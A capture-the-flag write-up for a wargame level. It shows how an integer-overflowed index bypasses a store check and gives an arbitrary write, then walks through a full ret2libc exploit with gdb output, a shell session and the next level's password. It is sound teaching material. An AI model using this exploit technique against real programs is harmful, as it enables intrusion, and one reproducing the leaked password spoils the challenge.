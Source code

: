 # Level07

## Analysis

Here comes a big boy, we have a number management system in front of us, we can use either "store", "read" or "quit".

- "store" will store a number at an asked index
- "read" will read a number at the asked index

Numbers are stored inside a fixed array in the stack located in `main()`.

As usual you can find the decomp [here](./level07.c).

## Exploit

What we can understand from this program is that "store" will allow us to write almost anything at _almost_ every memory address.

From this, we could imagine overwriting `%eip` and use it to do a RET2LIBC exploit.

First step is to get the `%eip` address, since there are multiple functions in this program (so multiple stack frame), we need to decide which `%eip` to overwrite. The smartest option being using the one from `main()` because we can chose to jump to it whenever we want by using the "quit" command:

```bash
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) i f
Stack level 0, frame at 0xffffdc30:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffdc28, args: 
 Locals at 0xffffdc28, Previous frame's sp is 0xffffdc30
 Saved registers:
  ebp at 0xffffdc28, eip at 0xffffdc2c
(gdb)
```

So our `%eip` is `0xffffdc2c`.

Moreover, we need to get the address of our buffer where the command "store" is writing to calculate the offset to `%eip`:

```bash
Breakpoint 2, 0x080486dd in read_number ()
(gdb) x/x $ebp+8
0xffffda40:	0xffffda64
```

So the offset is: `abs(0xffffda64 - 0xffffdc2c) = 456`

Which we will divide by 4 to give us the index: 456 / 4 = 114 (1 index == 4 bytes)

In theory we could write to `%eip` using "store" at the index 114, however there is a protection:

```c
if ( v3 == 3 * (v3 / 3) || HIBYTE(unum) == 183 )
```

The first condition prevents us from writing to an index divisible by 3, the second one checks if the second highest bytes are equal to `0xb7`.

To circumvent this issue, since `get_unum()` returns a `uint` and our index can range from `0` to `4 294 967 295`. What's interesting from this is the following line used to set our value at the specified index:

```c
*(_DWORD *)(a1 + 4 * v3) = unum;
```

`a1` is the beginning of our buffer, `v3` is the specified index.

Since we multiply our index by 4, we can overflow `UINT_MAX` to get the desired index which was previously impossible to access because of the protections we mentioned above. This gives us the following formula:

`((UINT_MAX + 1) / 4) + index`

In our case: `((4 294 967 295 + 1) / 4) + 114` => `1073741824 + 114` => `1073741938`

Hence why storing from index `1073741938` is equivalent to `114` while bypassing the protection:

### Demonstration

```bash
Input command: store 
 Number: 42069     
 Index: 1073741938    
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 42069
 Completed read command successfully
Input command: 
```

# 

## RET2LIBC

To achieve our exploit, we will now need to get the address of `system()` and the string `"/bin/sh"` which are both contained in the libc.

First, system:

```bash
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb)
```

`system: 0xf7e6aed0`, to decimal => `4159090384`

Now "/bin/sh":

```bash
(gdb) info proc map
process 1935
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) 
```

`"/bin/sh": 0xf7f897ec`, to decimal => `4160264172`

We now need to write those values to the right place:

<details>
  <summary>Spoiler</summary>

  ```bash
  level07@OverRide:~$ ./level07 
  ----------------------------------------------------
  Welcome to wil's crappy number storage service!   
  ----------------------------------------------------
  Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
  ----------------------------------------------------
   wil has reserved some storage :>                 
  ----------------------------------------------------

  Input command: store 
    Number: 4159090384
    Index: 1073741938
  Completed store command successfully
  Input command: store 
    Number: 4160264172
    Index: 116
  Completed store command successfully
  Input command: quit
  $ whoami
  level08
  $ cat /home/users/level08/.pass
  7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
  ```

</details>
